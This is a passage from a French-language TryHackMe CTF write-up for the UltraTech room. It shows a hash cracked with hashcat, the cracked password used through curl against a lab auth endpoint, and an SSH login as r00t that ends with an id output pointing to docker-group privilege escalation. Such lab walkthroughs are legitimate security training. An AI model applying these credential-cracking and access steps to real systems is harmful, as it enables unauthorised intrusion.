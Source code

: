 On brute force le hash avec hashcat, on trouve le mot de passe.    

La réponse est : n100906 

## Task 4 The root of all evil ##

**What are the first 9 characters of the root user's private SSH key?**


```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://ultratech.thm:8081/auth?login=r00t%38password=n100906
You must specify a login and a passwordtim@kali:~/Bureau/tryhackme/write-up$ curl http://ultratech.thm:8081/auth?login=r00t\&password=n100906
<html>
<h1>Restricted area</h1>
<p>Hey r00t, can you please have a look at the server's configuration?<br/>
The intern did it and I don't really trust him.<br/>
Thanks!<br/><br/>
<i>lp1</i></p>

```

Il y a un message qui dit de regarder la configuration serveur.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh r00t@ultratech.thm
The authenticity of host 'ultratech.thm (10.10.110.218)' can't be established.
ECDSA key fingerprint is SHA256:RWpgXxl3MyUqAN4AHrH/ntrheh2UzgJMoGAPI+qmGEU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'ultratech.thm,10.10.110.218' (ECDSA) to the list of known hosts.
r00t@ultratech.thm's password: 
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-46-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Aug 18 21:05:50 UTC 2021

  System load:  0.0                Processes:           101
  Usage of /:   24.3% of 19.56GB   Users logged in:     0
  Memory usage: 71%                IP address for eth0: 10.10.110.218
  Swap usage:   0%


1 package can be updated.
0 updates are security updates.



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
 
r00t@ultratech-prod:~$ id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
```
